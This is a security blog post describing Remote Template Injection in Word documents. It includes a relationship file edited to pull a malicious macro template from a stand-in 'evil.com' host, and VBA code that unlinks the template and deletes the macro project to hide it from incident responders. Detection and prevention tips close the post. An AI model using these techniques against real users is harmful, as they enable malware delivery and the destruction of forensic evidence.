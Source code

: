 ```yaml
---
title: "VBA Macro Remote Template Injection With Unlinking & Self-Deletion"
date: 2019-11-28
draft: false
---
```


One of the most common methods leveraged by attackers is the use of Malicious Word/Excel Documents sent over email. These malicious docs are embedded with macro VBA code that, when run, execute various tasks on the victim’s computer, usually resulting in RCE (Remote Code Execution) and/or data exfiltration. 

There are numerous techniques used on these malicious docs to bypass anti-virus detection (VBAStomping, obfuscation, etc.). One such method is Remote Template Injection.

## [](#header-1)Remote Template Injection

Word/Excel docs are made up of a collection of XML files all zipped together. You can actually unzip these docs by renaming the extension to .zip and extracting the contents as you would any zipped file. The XML file that we’re most interested in is settings.xml.rels located in the folder word\_rels\. However, if you unzipped just any document and looked for this file, it is likely that it won’t exist.

This is because settings.xml.rels exists only for documents that were created from a template. This isn’t a huge issue, just make sure when you create the document, that it’s based off a pre-made template (you can choose any of the default templates Microsoft already provides). While the rest of this post should still apply to both Word and Excel documents, I will be referring specifically to Word documents for the remainder of the post, as I have not tested all of this on Excel.

Below shows the contents of settings.xml.rels that you would typically find with most documents:
```xml
<?xml version=”1.0" encoding=”UTF-8" standalone=”yes”?>
<Relationships xmlns=”http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id=”rId1" Type=”http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target=”file:////Users/johnwoodman/Library/Containers/com.microsoft.Word/Data/Library/Application%20Support/Microsoft/Office/16.0/DTS/en-US%7b95D41D06–9CC6-D74F-A607–2B7C0EB22DFC%7d/%7b33B4F4BC-0742–3849-AA14-CD5092D5B844%7dtf10002086.dotx” TargetMode=”External”/></Relationships>
```

The part to pay attention to is the “Target” attribute. At the moment, this attribute is pointing to a file on the local machine. What we are able to do is change the value so it points to a remote file, which will then be used as the template for that document. This template would contain the macros you want to be executed. You can specify either an HTTP(S) URL or a SMB address pointing to your template.

Below shows the contents of settings.xml.rels after it has been altered to point to a malicious web server containing a malicious word template:
```xml
<?xml version=”1.0" encoding=”UTF-8" standalone=”yes”?>
<Relationships xmlns=”http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id=”rId1" Type=”http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target=”https://evil.com/malicious.dotm" TargetMode=”External”/></Relationships>
```

Once edited, all you have to do is re-zip the XML files and rename the extension to .docx. All that is left to do is send malicious doc to your “target” and once opened (and content is enabled) the template is pulled from the malicious web server and the macro code inside it is executed.

I created a [tool](https://github.com/JohnWoodman/remoteinjector) that automates all this for you!

## [](#header-2)Unlinking & Self-Deletion

While Remote Template Injection can be very useful in evading anti-virus, once the template is run, the VBA code will remain in the document. This means if blue team gets ahold of the document, they can see all the malicious code that was executed.

The technique I found to get around this is by unlinking the template using VBA. The below snippet of VBA code shows how the unlinking is done, as well as how to prevent dialog boxes from popping up to the target user asking them to “Save Changes”.

```vbnet
Sub unlink()
    Application.DisplayAlerts = False
    On Error GoTo Destroy
    ThisDocument.AttachedTemplate.Saved = True
    CurrUser = Application.UserName
    tmpLoc = "C:\Users\" & CurrUser & "\AppData\Roaming\Microsoft\Templates\Normal.dotm"
    ActiveDocument.AttachedTemplate = tmpLoc
    ActiveDocument.AttachedTemplate.Saved = True
    ThisDocument.Saved = True
    ActiveDocument.Saved = True
    ThisDocument.Close savechanges:=False
Exit Sub
Destroy:
    Call ThisDocument.DeleteVBAPROJECT
    ThisDocument.Saved = True
    ActiveDocument.Saved = True
    ActiveDocument.AttachedTemplate.Saved = True
    ThisDocument.Close savechanges:=False
End Sub
```

Essentially, to unlink the current template you have to link the document to another template. In the above code, I am linking it to Normal.dotm, the default template found in every computer with Word installed.

The code in the “Destroy” section of the code is the self-deletion, essentially a fail-safe. If an error occurs in the unlinking process (either through Normal.dotm not existing, or another error that I will discuss below), then the function “DeleteVBAPROJECT” is called. This function deletes all the code in the template. Below is a snippet of that function’s code:

```vbnet
Sub DeleteVBAPROJECT()
    Application.DisplayAlerts = False
    Dim i As Long
    On Error Resume Next
    With ThisDocument.VBProject
        For i = .VBComponents.Count To 1 Step -1
            .VBComponents.Remove .VBComponents(i)
            .VBComponents(i).CodeModule.DeleteLines _
            1, .VBComponents(i).CodeModule.CountOfLines
        Next i
    End With
    On Error GoTo 0
    ThisDocument.Saved = True
    ActiveDocument.Saved = True
End Sub
```

This function serves only as a last-ditch effort if the unlinking method errors out.

To show that the Macro VBA code can not be viewed (at least not easily), the below image shows the VBA Editor of the malicious document before the macro has been run:

![](/assets/2018-01-06-VBA-Macro-Remote-Template-Injection/1.png)

You can see that the template “DocTemp” has been loaded into the document, but the VBA code itself has not. Even before the macro code is run, it is not view-able.

The following image shows the VBA Editor after the content has been enabled (note: in this scenario, the VBA Editor has not been opened prior to enabling content, the reason that is important is explained later):

![](/assets/2018-01-06-VBA-Macro-Remote-Template-Injection/2.png)

You can see the macro code from the template has been executed (popping calc.exe) and the template has successfully unlinked itself from the word document, no longer appearing in the VBA Editor.

As I referenced earlier, one of the errors that continued to happen with the unlink method occurred whenever I would open the malicious document, and then open and close the VBA Editor window. I am still unsure as to why simply opening the VBA Editor causes the unlink method to fail, but the self-deletion method is currently the best temporary solution, as it still gets rid of all lines of code that could be viewed by potential blue team.

The below image shows what remains if the VBA Editor is opened prior to enabling content:

![](/assets/2018-01-06-VBA-Macro-Remote-Template-Injection/3.png)

As you can see, the reference to DocTemp remains, however, all the VBA code has been deleted.

## [](#header-3)Detection/Prevention

This method isn’t perfect. While I haven’t found anyway to view the actual Macro VBA code from the target side (both before and after enabling content), there are still ways to view the function names as well as the source URL that the template is being retrieved from. To view the function names:

1. Open the malicious document, but do not enable content.
2. Select the “Macros” button in the Developer tab.

This will give you the function names, but only the names. You will not be able to edit or step into these functions as they technically have not been loaded yet.

To view the source URL of the template:

1. Open the malicious document, but do not enable content.
2. Select the “Document Template” button in the Developer tab.

This will display the URL that the malicious document is grabbing the template from, allowing you to potentially retrieve the template from that URL yourself and be able to fully analyze the macro VBA code.

In terms of prevention, disabling the ability for Word/Excel documents to retrieve templates remotely would be the most effective against this type of attack.

## [](#header-4)Conclusion

I made this post mostly to help me learn and better understand the security and inner workings behind Macros, but I hope it also gives insight into one of numerous techniques to evade anti-virus and static analysis, and also how to detect and prevent against it.

## [](#header-5)References

* [Executing Macros From a DOCX With Remote Template Injection by BinaryFaultline](http://blog.redxorblue.com/2018/07/executing-macros-from-docx-with-remote.html)

